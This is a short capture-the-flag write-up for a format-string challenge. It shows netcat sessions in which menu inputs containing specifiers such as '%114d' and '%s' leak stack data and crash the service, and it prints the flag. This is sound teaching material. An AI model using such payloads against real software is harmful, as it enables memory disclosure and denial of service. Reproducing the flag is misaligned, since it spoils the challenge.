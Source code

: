 # Binary Exploitation

## format string 0

**Approach: Brute Force**

Initially, I tried to brute force the challenge and was successful. I found the flag quickly and easily and then analyzed the given code afterwards.

The brute-force method allowed me to navigate through the challenge effectively. By testing the inputs given in the program, I successfully retrieved the flag. 
 
For `Patrick`, I started with the burger names from the menu. I noticed that the system accepted the input `Gr%114d_Cheese`, which triggered a format string vulnerability.

For `Sponge Bob`, the second customer, I continued with the same method, testing all the provided burger names, the input `Cla%sic_Che%s%steak` was accepted, which also exhibited format string behavior.
Thus, I received the flag.

Knowledge Gained:
Format Strings- Learnt how format strings can be used to manipulate the output. The %s and other format specifiers can be exploited to read from the stack.

```
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^Z
[1]+  Stopped                 nc mimas.picoctf.net 52258
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: $outhwest_Burger
$outhwest_Burger
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

Flag:
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
